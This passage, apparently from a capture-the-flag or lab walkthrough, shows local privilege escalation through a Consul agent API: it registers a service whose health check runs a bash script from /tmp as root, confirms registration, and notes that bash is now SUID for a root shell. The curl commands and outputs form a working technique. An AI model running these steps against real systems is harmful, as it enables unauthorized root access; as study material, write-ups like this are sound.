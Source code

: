 and creating a service that calls that bash script as a check
```bash
curl -s \
  -H "X-Consul-Token: ${token}" \
  -X PUT 'http://127.0.0.1:8500/v1/agent/service/register' \
  -d '{
  "ID": "blnkn",
  "Name": "blnkn",
  "Address": "127.0.0.1",
  "Port": 80,
  "check": {
    "Args": [
      "/usr/bin/bash",
      "/tmp/blnkn.sh"
    ],
    "interval": "10s",
    "timeout": "1s"
  }
}'
```

checking that my service has been created 
```bash
curl -s \
  -H "X-Consul-Token: ${token}" \
  -X GET 'http://127.0.0.1:8500/v1/agent/service/blnkn' |\
  jq "."
```
```json
{
  "ID": "blnkn",
  "Service": "blnkn",
  "Tags": [],
  "Meta": {},
  "Port": 80,
  "Address": "127.0.0.1",
  "TaggedAddresses": {
    "lan_ipv4": {
      "Address": "127.0.0.1",
      "Port": 80
    },
    "wan_ipv4": {
      "Address": "127.0.0.1",
      "Port": 80
    }
  },
  "Weights": {
    "Passing": 1,
    "Warning": 1
  },
  "EnableTagOverride": false,
  "ContentHash": "fd910d44cc6214e9",
  "Datacenter": "dc1"
}
```
yep
```bash
consul catalog services
blnkn
consul
meow
svc111
```
and now bash is suid, so we can run it with preserve and it won't drop root permissions. 
```bash
ls -la $(which bash)
```